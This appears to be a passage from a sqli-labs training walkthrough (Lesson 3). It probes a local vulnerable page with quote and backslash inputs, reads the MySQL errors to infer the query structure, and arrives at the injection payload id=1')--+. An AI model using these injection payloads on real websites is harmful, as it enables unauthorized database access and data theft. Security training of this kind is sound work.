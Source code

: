 #### 3. Lesson 3

```
http://127.0.0.1/sqli-labs/Less-3/
http://127.0.0.1/sqli-labs/Less-3/?id=1
http://127.0.0.1/sqli-labs/Less-3/?id=1'
```

![](images/3/1.png)

![](images/3/2.png)

![](images/3/3.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1
```

```
'1'') LIMIT 0,1' at line 1
'     1'    ') LIMIT 0,1         '
```

```
http://127.0.0.1/sqli-labs/Less-3/?id=1\
```

![](images/3/4.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\') LIMIT 0,1' at line 1
```

```
''1\') LIMIT 0,1' at line 1
''1\') LIMIT 0,1'
'   '1\') LIMIT 0,1   '
```

```sql
select login_name, password from table where id=('our_input')
```

```
http://127.0.0.1/sqli-labs/Less-3/?id=1')--+
```

![](images/3/5.png)